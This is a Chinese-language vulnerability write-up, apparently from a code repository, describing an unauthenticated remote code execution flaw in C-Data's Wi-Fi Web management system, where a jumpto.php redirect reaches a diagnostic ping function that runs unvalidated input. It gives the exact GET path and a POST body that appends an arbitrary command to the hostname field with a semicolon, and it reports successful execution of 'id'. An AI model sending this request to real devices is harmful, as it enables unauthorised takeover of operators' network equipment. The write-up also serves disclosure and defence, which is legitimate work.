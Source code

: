 # C-Data Wi-Fi Web管理系统存在未授权RCE漏洞

## 一、漏洞描述

        C-Data是一家提供主流接入网技术所需全线产品的高科技企业。在中国市场，C-Data拥有电信、广电、驻地网运营商、系统集成商等众多品牌客户，产品销售更是覆盖世界各地，在南美洲、非洲、东欧、东南亚、亚太地区近百个国家的运营商网络、企业网络中得到了广泛应用。

        而其提供的Wi-Fi Web管理系统存在未授权远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限。



## 二、定位漏洞点

在cgi-bin 目录下 jumpto.php 可以通过拼接GET参数，跳转到同级目录下的php或html文件

![](./assets/jumpto.png)

同级目录中的diagnosis目录下的diagnosis_config_save.php文件中提供了ping功能，其代码如下：

![](./assets/ping_vuln.png)

在指定call_function为ping时，该函数接受post的iface参数与hostname参数，拼接指令并执行。然而此处对传进来的iface与hostname参数都没有进行校验，因此可以通过构造阶段从而实现任意命令执行。



## 三、漏洞利用

根据漏洞点构造发包请求，将其设置为POST请求包，

设置GET参数使得能够从jumpto.php跳转到diagnosis_config_save.php

```
cgi-bin/jumpto.php?class=diagnosis&page=config_save&isphp=1
```

设置POST参数使得可以执行ping命令并对其截断从而执行任意命令

```
call_function=ping&iface=eth0&hostname=127.0.0.1;cmd
```

漏洞利用结果如下，成功执行id指令，返回被攻击端的用户id：

![](./assets/success.png)